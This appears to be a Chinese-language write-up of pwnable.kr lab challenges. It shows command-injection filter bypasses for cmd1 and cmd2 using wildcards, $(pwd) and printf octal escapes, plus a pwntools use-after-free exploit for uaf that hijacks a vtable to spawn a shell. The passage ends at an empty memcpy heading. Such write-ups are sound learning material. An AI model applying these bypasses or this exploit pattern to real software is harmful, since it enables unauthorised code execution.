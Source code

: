 ## cmd1

简单的命令注入绕过题目。覆盖了`PATH`环境变量，使用绝对路径绕过，检测`flag`、`sh`、`tmp`关键字，使用`*`匹配即可。绕过方法如下：

```bash
 ./cmd1 '/bin/cat f*'
```

## cmd2 

命令注入绕过的进阶版，增加了对`/`的检测，参考过[《命令执行的一些绕过技巧》](https://chybeta.github.io/2017/08/15/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E7%9A%84%E4%B8%80%E4%BA%9B%E7%BB%95%E8%BF%87%E6%8A%80%E5%B7%A7/)后，感觉还是需要对字符进行编码解码绕过。常见的思路为借助根目录或者`printf \ddd`的形式绕过，绕过方式如下：

```bash
cd /;/home/cmd2/cmd2 '$(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)f*'
./cmd2 '$(printf \\057)bin$(printf \\057)cat f*'
```

[writeup](http://pwnable.kr/writeup.php?task_no=49)当中还有借助`command -p`命令来使用默认的`PATH`，这一招也是够独特的。

## uaf

最基础的UAF漏洞利用题目。利用的关键在于，先free掉原始的对象，然后使用新分配的内容占住原始内存，进而覆盖原始对象的相关结构，如此题目中的虚表，当再次use时即可劫持ip跳转至`give_shell`函数。利用脚本如下：

```python
from pwn import *

context.log_level = 'debug'

filename = '/tmp/larryxi/f'
content = p64(0x401570-8) + p64(0) + p64(0)
with open(filename, 'w') as f:
    f.write(content)

p = process(['/home/uaf/uaf', str(0x18), filename])
p.recvline('free')
p.sendline('1')
p.recvline('free')
p.sendline('3')
p.recvline('free')
p.sendline('2')
p.recvline('free')
p.sendline('2')
p.recvline('free')
p.sendline('1')

p.interactive()
```

## memcpy
